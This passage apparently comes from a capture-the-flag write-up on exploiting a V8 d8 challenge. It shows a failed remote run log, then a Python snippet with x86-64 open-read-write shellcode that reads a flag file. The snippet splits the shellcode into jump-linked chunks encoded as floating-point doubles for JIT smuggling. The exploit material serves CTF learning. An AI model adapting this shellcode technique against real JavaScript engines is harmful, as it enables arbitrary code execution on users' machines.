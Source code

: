 ```
$ python3 solve.py
[+] Opening connection to [REDACTED] on port -1: Done
[*] Switching to interactive mode
Base64 encoded javascript file to be passed to d8: [x] Starting local process './d8'
[+] Starting local process './d8': pid -2
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to [REDACTED] port -1
```

Through some exploring and tinkering I was pretty confident that the patched version of the script went through perfectly fine on remote and reached the shellcode stage, which means that the `/bin/sh` shellcode was somehow not accepted on remote. Hence I simply changed the shellcode to `orw` and it worked perfectly fine:

```python
import struct

'''mov edx, 0x67616c66
push rdx   
mov rdi, rsp
xor esi, esi
nop
mov eax, 2
nop
syscall
mov edi, eax
nop
nop
mov rsi, rsp
xor eax, eax
nop
mov edx, 0x30
nop
syscall
xor edi, 2
nop
mov eax, edi
syscall
nop
nop
nop
nop'''

JMP_PADDING = b'\xeb\x0c'
SHELLCODE = b'\xBA\x66\x6C\x61\x67\x52\x48\x89\xE7\x31\xF6\x90\xB8\x02\x00\x00\x00\x90\x0F\x05\x89\xC7\x90\x90\x48\x89\xE6\x31\xC0\x90\xBA\x30\x00\x00\x00\x90\x0F\x05\x83\xF7\x02\x90\x89\xF8\x0F\x05\x90\x90\x90\x90'

res = JMP_PADDING.join(SHELLCODE[i:i+6] for i in range(0, len(SHELLCODE)-2, 6)) + SHELLCODE[-2:]
print(list(struct.unpack('d'*(len(res)//8), res)))
```
